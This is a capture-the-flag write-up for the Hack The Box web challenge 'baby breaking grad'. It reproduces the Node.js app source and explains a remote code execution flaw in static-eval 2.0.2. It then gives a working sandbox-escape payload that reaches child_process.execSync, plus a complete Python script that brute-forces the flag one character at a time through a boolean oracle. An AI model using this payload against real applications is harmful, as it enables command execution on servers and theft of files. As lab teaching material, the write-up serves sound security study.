


# baby breaking grad
## Challenge description
We corrected the math in our physics teacher's paper and now he is failing us out of spite for making a fool out of him in the university's research symposium, now we can't graduate, unless we can do something about it...

## Looking around
When we visit the website in a browser, we see this.


Functionally, that's it. Choose a name and not pass.

## Challenge source code
### `routes/index.js`
```python
const randomize         = require('randomatic');
const path              = require('path');
const express           = require('express');
const router            = express.Router();
const StudentHelper     = require('../helpers/StudentHelper');

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
    let student = req.body;

    if (student.name === undefined) {
        return res.send({
            error: 'Specify student name'
        })
    }

    let formula = student.formula || '[0.20 * assignment + 0.25 * exam + 0.25 * paper]';

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasPassed(student, formula)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});

module.exports = router;
```

### `helpers/StudentHelper.js`
```python
const evaluate = require('static-eval');
const parse = require('esprima').parse;

module.exports = {
    isDumb(name){
        return (name.includes('Baker') || name.includes('Purvis'));
    },

    hasPassed({ exam, paper, assignment }, formula) {
        let ast = parse(formula).body[0].expression;
        let weight = evaluate(ast, { exam, paper, assignment });
        
        return parseFloat(weight) >= parseFloat(10.5);
    }
};
```

## Methodology
`/api/calculate` call is used to determine if we pass or not. When we intercept the request we can see that we are only sending the `name`.

```json
{"name":"Kenny Baker"}
```

We can also specify the formula. If we don't specify it, it gets decided for us. We can make ourselves pass if we don't include `Baker` or `Purvis` in the name and specify the formula above `10.5`.



In `StudentHelper` we use the module `static-eval` which can evaluate code blocks. From `package.json` we see `static-eval` is at the version `2.0.2`.

There is an issue within this version, where we can trigger an [RCE](https://github.com/advisories/GHSA-8v27-2fg9-7h62). The issue is debated [here](https://github.com/browserify/static-eval/issues/34).

```python
let ast = parse(formula).body[0].expression;
let weight = evaluate(ast, { exam, paper, assignment });
```

In this secion the program parses content in our controlled `formula` variable.

## Exploit
As a basis we are going to use this payload.

```python
payload = "(function (x) { return `${eval(\"console.log(global.process.mainModule.constructor._load('child_process').execSync('ls').toString())\")}` })()"
```

On the server this executes `ls` command. My approach is boolean-based. We can control the formula to either pass or no pass. I will exfiltrate flag char by char by bruteforcing every character in the flag. If I guess the char correctly, I pass, if not, I don't pass.

The flag file is named `flag` + 5 random characters that we don't know. `cat flag*` does the trick and concatenates the right file.

### `exploit.py`
```python
#!/usr/bin/python3

import requests
import string

url = 'http://159.65.51.138:32510'

flag = ''

for i, _ in enumerate(iter(bool, True)):
  for c in string.printable:
    # if char from flag is guessed correctly, return 25 (Passed: formula >= 10.5) else return 1 (Nope: formula < 10.5)
    p = "(function (x) { return `${eval(\"if(global.process.mainModule.constructor._load('child_process').execSync('cat flag*').toString().charCodeAt(" + str(i) + ") == " + str(ord(c)) + ") {25} else {1}\")}` })()"

    j = {"name": "yooo", "formula": p}
    r = requests.post(url + '/api/calculate', json=j)

    if(b'Passed' in r.content):
      flag += c
      print(flag)

      if(c == '}'):
        quit()

      break
```

I compared `charCodeAt` with the `ord` of my charset, because it was much more reliable for me than comparing literal characters.



## Flag
**HTB{f33l1ng_4_l1ttl3_blu3_0r_m4yb3_p1nk?...you_n33d_to_b3h4v'eval!!}**